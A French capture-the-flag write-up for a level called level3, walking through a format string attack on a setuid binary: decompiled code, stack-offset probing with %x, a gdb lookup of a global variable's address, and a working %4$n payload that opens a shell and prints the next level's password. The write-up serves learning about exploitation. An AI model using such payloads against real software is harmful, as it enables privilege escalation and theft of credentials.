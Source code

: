 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2022(level3) gid=2022(level3) groups=2022(level3),100(users)
/home/user/level3
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level3 :

```
$ ./level3

```

Il ne répond qu'avec un input :

```
$ ./level3
da
da
```

J'utilise [Dogbolt](https://dogbolt.org/?id=b1a5a447-06b3-402d-a740-453263922d7a) afin de décompiler le binaire du level 3.

### Ghidra

```c
void v(void) {
  char buffer[520];
  
  fgets(buffer,0x200,stdin);
  printf(buffer);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void) {
  v();
  return;
}
```

### Hexray

```c
int v() {
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
```

Ici, il semble être question de modifier la valeur de `m` dans le code afin de passer le `if` et ouvrir un shell.

Je note que `fgets()` n'est pas la source de vulnérabilité car c'est une version protégée de `gets()` mais que `printf()`, qui lit notre input et l'imprime, présente une vulnérabilité possible connue sous le nom de [Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack).

Il s'agit ici d'utiliser le flag de conversion `%n` :

```
Parameters 	Output 	                                        Passed as
...         ...                                             ...
%n 	        Writes the number of characters into a pointer 	Reference
```

Il me faut donc, dans l'espace qui m'est fourni par le buffer et la limite de `fgets()`, écrire à l'adresse de la variable `m`.

Pour cela, je dois composer un payload infecté composé de :

- l'adresse de la variable `m` dans la fonction `v()`
- 64 caractères à écrire que %n va utiliser pour écrire le pointeur
- puis l'appel à `%n`

Etant donné que nous ne passons aucun argument à `printf`, ce dernier va lire la stack comme argument. Pour trouver "où" se trouve le pointeur de la variable `m` dans la stack pour `printf` lorsque je lui passe l'adresse de `m`, j'utilise l'astuce suivante :

```
$ python -c 'print("a %x %x %x %x %x %x")' | ./level3
a 200 b7fd1ac0 b7ff37d0 78252061 20782520 25207825
                               ^

$ python -c 'print("b %x %x %x %x %x %x")' | ./level3
b 200 b7fd1ac0 b7ff37d0 78252062 20782520 25207825
                               ^
```

J'identifie que le 4eime argument dans l'appel de `printf` représente le 'premier' dans la string passé à `printf`.

Cela m'indique que l'appel à `%n` nécessitera un 'shift' de 4 (écrit: `%4$n`) pour signifier que les 64 bytes écrit avant cet appel doivent être stocké dans le "4eime" argument, qui sera en fait l'adresse de la variable 'm', j'illustre ce propos avec le payload suivant :

```python
python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90"*60 + "%4$n"
```

Note: vu que je fais un shift de 4 bytes, je n'ai donc que 60 à écrire avant pour atteindre le total de 64 bytes, et ce sera la valeur écrite donc dans le "4eime" (1er dans printf) argument, qui pointe donc sur : `0x0804988c`

Cette adresse est trouvée en utilisant `gdb` :

```
(gdb) disas v
Dump of assembler code for function v:
...
   0x080484d5 <+49>:    call   0x8048390 <printf@plt> <- on observe le printf
   0x080484da <+54>:    mov    0x804988c,%eax <- met l'adresse de m dans %eax
   0x080484df <+59>:    cmp    $0x40,%eax <- compare %eax a 0x40 -> 64
...
```

J'exécute mon payload :

```
$ (python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90"*60 + "%4$n")' && echo 'cat /home/user/level4/.pass') | ./level3
�������������������������������������������������������������
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```